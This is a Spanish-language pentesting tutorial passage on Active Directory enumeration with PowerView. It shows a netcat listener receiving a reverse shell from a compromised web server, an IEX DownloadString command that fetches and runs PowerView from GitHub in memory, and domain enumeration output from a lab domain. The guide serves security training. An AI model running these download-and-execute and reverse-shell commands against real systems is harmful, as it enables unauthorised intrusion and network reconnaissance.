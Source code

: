 # Enumeración con PowerView

Utilizando PowerShell, los atacantes pueden recopilar sigilosamente datos internos de los usuarios y explotarlos.

Los ciberdelincuentes aprovechan PowerShell para ejecutar malware sin archivos. Estos archivos no binarios residen en la memoria y les permiten inyectar cargas útiles en aplicaciones en ejecución o mediante secuencias de comandos. Los scripts de entrega de carga útil casi siempre se ejecutan, ya que PowerShell es una aplicación confiable y ampliamente implementada. Además, la integración profunda de Windows de PowerShell y la capacidad de acceder a todas las partes de un host a través del marco .NET brindan a los malos actores la cobertura mejorada que necesitan para eludir los controles de seguridad tradicionales y violar las redes.

En conclusión, powerShell es una poderosa herramienta de post-explotacion que permite a los auditores de seguridad explorar una gran superficie de ataque y explotar muchas posibilidades de ataque.

{% embed url="https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters" %}

## Introducción a PowerView

PowerView, desarrollada por Will Schroeder, es una herramienta que utiliza la función de dominio de Windows para recopilar información sobre una red y sus usuarios. Todas las opciones de la herramienta envían solicitudes legítimas que pueden ejecutarse en el contexto de los derechos de un usuario de dominio.

Enlace de descarga de PowerView.ps1:

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

Para importar el script en memoria, podemos ejecutar los siguientes comandos:

{% code overflow="wrap" %}
```powershell
kqli@kali=> nc -nvlp 443                                                                                           
listening on [any] 443 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37208
Windows PowerShell running as user WEBSERVER$ on WEBSERVER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
PS C:\windows\system32\inetsrv> Get-NetDomain

Forest                  : evilcorpt.corp
DomainControllers       : {First-DC.evilcorpt.corp}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : First-DC.evilcorpt.corp
RidRoleOwner            : First-DC.evilcorpt.corp
InfrastructureRoleOwner : First-DC.evilcorpt.corp
Name                    : evilcorpt.corp
```
{% endcode %}
